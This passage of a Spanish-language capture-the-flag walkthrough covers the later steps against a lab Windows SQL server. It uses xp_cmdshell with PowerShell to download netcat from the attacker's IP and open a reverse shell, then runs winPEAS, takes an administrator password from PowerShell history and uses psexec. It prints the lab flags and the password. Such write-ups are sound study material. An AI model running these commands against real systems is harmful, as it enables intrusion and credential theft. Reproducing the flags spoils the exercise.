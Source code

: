 A partir de ahora tengo que mirar el walkthrough

El objetivo es establecer una reverse shell. Descargaremos nc64.exe y en esa carpeta, ejecutaremos el siguiente comando: 

```
sudo python3 -m http.server 80
```
Así abrimos el puerto 80 para poder conectarnos a nuestro ordenador desde la consola de la maquina que esta hosteando la base de datos

Usaremos netcat para escuchar por el puerto 443:

```
sudo nc -lvnp 443
```

Mi direccion ip es esta 10.10.14.110

Así que si desde la ventana de sql hacemos:

```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.110/nc64.exe -outfile nc64.exe"
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.110 443"
```

## [](#header-3) 8)  Submit user flag

```
cd C:\Users\sql_svc\Desktop
dir
type user.txt
```

```
3e7b102e78218e935bf3f4951fec21a3
```

```
powershell
wget http://10.10.14.110/winPEASx64.exe -outfile winPEASx64.exe
./winPEASx64.exe
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\
text ConsoleHost_history.txt
```
Con esto obtenemos la contraseña de administrator que es: "MEGACORP_4dm1n!!"


## [](#header-3) 9) Submit root flag

Ahora, con psexec.py y la contraseña que hemos hallado antes:

```
python3 psexec.py administrator@$IP
cd C:\Users\Administrator\Desktop
dir
type root.txt
```
```
b91ccec3305e98240082d4474b848528
```
